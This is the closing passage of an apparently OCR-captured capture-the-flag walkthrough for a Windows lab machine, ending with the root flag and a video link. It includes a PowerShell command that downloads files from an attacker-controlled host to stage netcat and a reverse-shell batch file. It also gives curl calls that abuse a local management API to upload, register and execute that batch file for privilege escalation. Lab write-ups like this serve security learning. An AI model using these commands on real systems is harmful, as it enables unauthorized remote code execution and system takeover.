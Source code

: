   > and we need to upload it and upload nc.exe to the machine.
  
  > command to upload files : powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
  
  - now we uploaded the evil.bat and the nc so let me tell you the commands i used:

> curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/rev.bat --data-binary @hey.bat

> curl -s -k -u admin https://localhost:8443/api/v1/scripts/ext/scripts/rev.bat

> curl -s -k -u admin https://localhost:8443/api/v1/queries/rev
	
> curl -s -k -u admin https://localhost:8443/api/v1/queries/scripts\rev.bat

> curl -s -k -u admin "https://localhost:8443/api/v1/queries/rev/commands/execute?time=3m"

- let's go

# []()Root-Flag

![Root](https://i.ibb.co/sqBcMGY/root.gif)

> d0ne!.

> Walkthrough
>
> [![Video](https://i.ibb.co/YTqbHBZ/page.png)](https://www.youtube.com/watch?v=ZhsPAguz4-Y)


- Thanks for reading.

 <script src="https://x.com/SnowCr4ck/"></script>

	


